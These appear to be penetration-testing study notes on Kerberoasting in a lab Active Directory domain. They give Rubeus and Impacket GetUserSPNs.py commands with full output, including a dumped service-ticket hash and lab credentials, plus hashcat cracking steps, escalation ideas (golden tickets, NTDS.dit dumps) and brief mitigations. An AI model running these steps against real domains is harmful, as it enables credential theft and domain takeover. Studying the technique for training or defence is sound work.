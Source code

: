 # Kerberoasting w/ Rubeus & Impacket
- Kerberoasting allows a user to request a service ticket for any service with a registered SPN
- Use that ticket to crack the service password
- If service has a registered SPN then it can be Kerberoastable

Enumerate Kerberoastable; use BloodHound to find all Kerberoastable accounts

## Kerberoasting w/ Rubeus
- Dump Kerberos hash of any Kerberoastable users

<pre>controller\administrator@CONTROLLER-1 C:\Users\Administrator\Downloads>Rubeus.exe kerberoast

   ______        _                       
  (_____ \      | |                      
   _____) )_   _| |__  _____ _   _  ___  
  |  __  /| | | |  _ \| ___ | | | |/___) 
  | |  \ \| |_| | |_) ) ____| |_| |___ | 
  |_|   |_|____/|____/|_____)____/(___/  
                                         
  v1.5.0                                 


[*] Action: Kerberoasting 

[*] NOTICE: AES hashes will be returned for AES-enabled accounts. 
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts. 

[*] Searching the current domain for Kerberoastable users 

[*] Total kerberoastable users : 1


[*] SamAccountName         : SQLService 
[*] DistinguishedName      : CN=SQLService,CN=Users,DC=CONTROLLER,DC=local  
[*] ServicePrincipalName   : CONTROLLER-1/SQLService.CONTROLLER.local:30111 
[*] PwdLastSet             : 5/25/2020 10:28:26 PM                          
[*] Supported ETypes       : RC4_HMAC_DEFAULT                               
[*] Hash                   : $krb5tgs$23$*SQLService$CONTROLLER.local$CONTROLLER-1/SQLService.CONTROLLER.loca 
                             l:30111*$74ED9A6944729B855529A7E1CEBE28F5$7F4D43C26FB1F736B347B99043E3085EFE032B 
                             C53A5D2EE0DFF7776C30D2C1E75C5993B6957D0FC1C114C187CF13403B25419009730AD0A2019706 
                             D37C654C7AE9E78CD173AA7AD67D7133D87D6000BE6D54F5D8585814436F8BFCA77220C6504E462D 
                             4EBFA0B30798E06FAA09A877B6D0864017D8E9468735C8FEC84A243DA071BBB9A6AE37FD2D243891 
                             47BC9F0B98355E4ED0544DA0FF00337C3C916899DD4101A060A35E7D95E6E896AD3ECD4CA8131FDA 
                             CAC6173333CCACE91A46D1B2098CDC99E4EE46BF29D3602BE1C210E198CCFB7B5818F277B8DD4854 
                             4CFCC738A6938FBAB633CF1B9AC74243A1DB7E25266E0622011D6C28F2E500C0204F9293E172508E 
                             56603B06B81C4726F2C4FA73724C3BD69ABC68A3AA59E7F6689FD32A8B73507FDDD4B5FA86F9E056 
                             42057AA8CE739094837A018E3EF63926B5101173A52F480C8AA50E810A38DFDE82E032E1E5977FBD 
                             E59EA0C63FD2001E1A48BA9F6E9125719A342FF798A0C715CCD513DAB1A27CD16DE3281D7A05A712
                             BE6D34F34068B4E918535CBA0963CFA303345B40EEF6CAE41E3B8A810DC8AB1C33973FA2176D9B8B
                             FB6F60A3457C17D4ABC4956C32EF19C4C17387DE9881B892F22605F1D259330C5D4C52120C98A491
                             9CE2C4BAB9FAD6D579544A326517AF4C538C2873AECF796562E4C30C8AC3AEB8D6D6A9634026C9F3
                             46B1797A3A5181B291C494BE0A0EC126DF65F26F891E4033781B9E2D0D29FF710AFC880D4814B8D1
                             50A4B91BEAADC21BE807269DF387CC578735F97D40D85F480E4BA2B35BBDEC3834EB12D1900BCE31
                             1EC9CFCF4440932E010B64B885C59D6ACAFED3ED4958A51CE50D419A11884E55D398480761AD6547
                             E7BB965C93F7A4418804634D8457A7FA500297866DA86ACBB2D615EC86955A3CCF75FDEA912D73B8
                             EF07B2EBF4D85105C880C1A7AF0D83D965F5C10162C67C3E260F9C6C7A71F29B83C3DDF668C5155E
                             3D649098B33C9DAC89302C24EFCF8EBF875E277541CDCE9FA29A954CE021A161ED5FDB09DB18F0A9
                             7B0918E74B1A9A9D4D7879DE7A458A5636E9507296D60538A426E61F63E61EC95BC49E2C1886A0AC
                             7C8A02DEDF49C87763DBE16B6CD293DDE6EE2A4763A45C88B334D4AB47CDA4956D35C84A6BA5FBAB
                             2FF1C6A9DAA65C650A5C8AD155691DC54552C3729C81B37237F9BB377ED12F97245436E95F8B7136
                             6F1CEA935C405819A99E11D4DB170768FA8CAE4B93C5A13677CF40DE862568CF6E17A435A48920D5
                             987303F4576D6FDBCF1CD3C3B4B83BC81F2C2B1AF149E7EFC970AE6C17CFE2120EF94A7CE3883BB8
                             5D25853243E2789291146D557E123219915AF0265151239CC6E258A5DE719AC44F56F61C02B2536F
                             C6A3D58A17D8AEDB557E1FB17E0A710E8991BA5ADE342A782D3D7514F8BE10162F6F6474A1FD0031
                             0E7F9F9EE735F8F61095D215EFA2F0A58FD2DA0B7A86A1221C8F9FA2AAA113562EB5152A9BFFF322
                             431755E6579A401D5615B9F6FFFB67B982B7FC9CEF33BE7E758573D5C67740BD179CF90F43E7C8E2
                             1AC25F8523AF3228DC89F815FFA3549B388198A040971A77148ABBE5BA98B5DDB87E726AE5F609E3
                             063224F29EE60C58B7A0498FEF9E91E4AC84559FB632B8B535F1EADD71</pre>

## Hashcat
Use hashcat to crack Kerberos 5 hash
<pre>hashcat -m13100 -a 0 hash.txt passwords.txt</pre>

## Impacket
1) Navigate to preferred directory to save tools in
2) Download precomplied package: https://github.com/SecureAuthCorp/impacket/releases/tag/impacket_0_9_19
3) <pre>cd impacket-0.9.19 </pre>
4) <pre>pip install </pre>

## Kerberoasting w/ Impacket
1) Navigate to where GetUsersSPNs.py is located

<pre>cd /usr/share/doc/python3-impacket/examples </pre>

2) Dump Kerberos hash for all Kerberoastable accounts it can find on domain)

<pre>sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.183.143 -request </pre>

4) Crack the hash

<pre>hashcat -m 13100 -a 0 hash.txt passwords.txt</pre>

## What can a Service Account do?
- Service Account = Domain Admin = Golden/Silver ticket + dump NTDS.dit
- Service Account is not Domain Admin = log on to other systems + escalate privileges

## Kerberoasting Mitigation
- Strong password policy
- Do not make Service Accounts Domain Admin